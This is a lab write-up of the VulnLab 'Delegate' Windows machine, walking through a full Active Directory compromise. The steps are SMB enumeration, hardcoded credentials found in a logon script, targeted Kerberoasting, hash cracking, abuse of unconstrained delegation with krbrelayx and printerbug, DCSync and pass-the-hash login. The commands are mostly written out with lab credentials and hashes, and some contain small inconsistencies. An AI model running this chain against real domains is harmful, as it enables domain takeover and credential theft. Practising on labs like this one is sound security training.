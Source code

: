 ```yaml
---
title: VulnLab -- Delegate Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Delegation,Unconstrained Delegaton,Kerberosting,Targeted Kerberosting]
image:
    path: ../images/Delegate-banner.png
---
```

# Delegate

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Delegate** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/delegate-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 47001,49674,49664,464,49686,135,53,593,64282,3268,49666,3389,49675,49669,3269,389,5985,64313,49690 --min-rate=1000 10.10.78.6510.10.78.65
```

![image.png](../images/delegate.png)

Now let’s enumerate the shares

```bash
nxc smb delegate.vl -u 'guest' -p '' --shares
```

![image.png](../images/delegate%201.png)

> Notice that we have read access to the SYSVOL
> 

So let’s connect to the share

```bash

smbclient \\\\delegate.vl\\SYSVOL -U "delegate.vl\guest"
```

![image.png](../images/delegate%202.png)

So let’s go and see the scripts that may be running

```bash
cd delegate.vl/scripts
```

![image.png](../images/delegate%203.png)

As we see there is a file named users.bat so let’s download it

```bash
get users.bat
```

![image.png](../images/delegate%204.png)

Let’s see the users.bat content

```bash
cat users.bat
```

![image.png](../images/delegate%205.png)

> Notice that we found hardcoded credentials 
username: A.Briggs
password: P4ssw0rd1#123
> 

So let’s go and test those creds

```bash
nxc smb delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123'
```

![image.png](../images/delegate%206.png)

As we see the credentials are working

Let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.78.65 -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all --zip
```

![image.png](../images/delegate%207.png)

Now let’s open it and see if we have any permissions 

![image.png](../images/delegate%208.png)

> Notice that we have GenericWrite on another
> 

Now let’s abuse the targeted kerberosting

```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --dc-ip 10.10.78.65
```

![image.png](../images/delegate%209.png)

Now let’s try to crack it’s hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/delegate%2010.png)

> As we see we got the password for the user N.Thompson
username: N.Thompson
password: KALEB_2341
> 

Now let’s see the new user permissions

![image.png](../images/delegate%2011.png)

> Notice that the user is in a group named Delegation Admins
> 

Now let’s go and create new computer object

```bash
impacket-addcomputer -computer-name 'remo$' -computer-pass '123456' -dc-ip 10.10.78.65 deledation.vl/A.Briggs:'P4ssw0rd1#123'
```

![image.png](../images/delegate%2012.png)

Now let’s add spn to the machine

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/remoone.delegate.vl' -t 'remoone$' -dc-ip 10.10.78.65 dc1.delegate.vl --additional
```

Now let’s add delegation for the machine

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'dc1.delegate.vl' add uac 'remoone$' -f TRUSTED_FOR_DELEGATION
```

![image.png](../images/delegate%2013.png)

Now let’s open the krbrelayx

```bash
python3 krbrelayx.py -smb2support -hashes :32ED87BDB5FDC5E9CBA88547376818D4
```

![image.png](../images/delegate%2014.png)

Now let’s add dns entry for in the domain

```bash
python3 dnstool.py -u 'delegate.vl\remoone$' -p 123456 -r remoone.delegate.vl -d 10.8.5.233 --action add dc1.delegate.vl -dns-ip 10.10.78.65
```

![image.png](../images/delegate%2015.png)

Now let’s start relaying 

```bash
python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl
```

![image.png](../images/delegate%2016.png)

Now let’s see if we got a ticket

![image.png](../images/delegate%2017.png)

Now let’s go and export the ticket

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
```

![image.png](../images/delegate%2018.png)

now let’s perform DCSync to get administrator hash

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```

![image.png](../images/delegate%2019.png)

Now let’s go and winrm to the machine

```bash
evil-winrm -i delegate.vl -u administrator -H c32198ceab4cc695e65045562aa3ee93
```

![image.png](../images/delegate%2020.png)

Now let’s go and navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/delegate%2021.png)

Amazing we got the root flag 🥳

![image.png](../images/delegate%2022.png)

That’s it for the **Delegate** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
